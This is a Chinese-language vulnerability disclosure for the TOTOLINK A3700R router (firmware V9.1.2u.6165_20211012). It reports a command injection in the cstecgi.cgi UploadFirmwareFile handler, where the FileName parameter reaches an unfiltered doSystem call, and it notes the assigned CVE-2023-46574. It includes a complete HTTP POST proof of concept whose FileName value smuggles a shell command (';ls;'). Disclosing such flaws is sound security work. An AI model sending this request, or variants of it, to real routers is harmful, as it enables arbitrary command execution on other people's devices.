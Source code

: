 

### **概述**：
影响设备：totolink A3700R

影响固件版本：V9.1.2u.6165_20211012

影响：命令注入，可以导致任意命令执行

固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>

报送邮箱 : zwx918569613@gmail.com


![](Pasted%20image%2020231022165035.png)

### **漏洞**：

该漏洞位于`cstecgi.cgi`中的函数`FUN_0042f718`，函数别名`UploadFirmwareFile`


![](Pasted%20image%2020231022165445.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
这里我们通过构造参数`FileName`，可以传入下面封装好的`doSystem`函数，并且`doSystem`没有过滤，通过构造合适的payload可以实现任意命令执行


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
~~~

### **影响效果**：

![](Pasted%20image%2020231022170210.png)



assigned : CVE-2023-46574